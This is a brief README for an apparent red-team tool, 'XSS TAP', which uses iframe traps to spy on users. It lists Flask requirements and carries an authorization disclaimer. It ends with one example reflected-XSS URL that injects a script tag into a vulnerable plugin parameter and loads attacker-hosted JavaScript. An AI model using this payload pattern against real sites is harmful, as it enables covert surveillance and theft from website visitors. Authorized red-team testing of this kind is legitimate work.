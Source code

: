 # XSS TAP
Tailored XSS payload that uses iFrame traps to spy on user. Intended for redteam ops. 
@hoodoer

This tool is intended to be used on systems you are authorized to attack.
Do not use this tool for illegal purposes, or I will be very angry in your general direction. 
@hoodoer


Pip requirements: 
flask
flask-cors



https://targetapp.possiblymalware.com/wp-content/plugins/sketchyPlugin/unauthXSS.php?param=%3Cscript%20src=%27http://localhost:8444/lib/telemlib.js%27%3E%3C/script%3E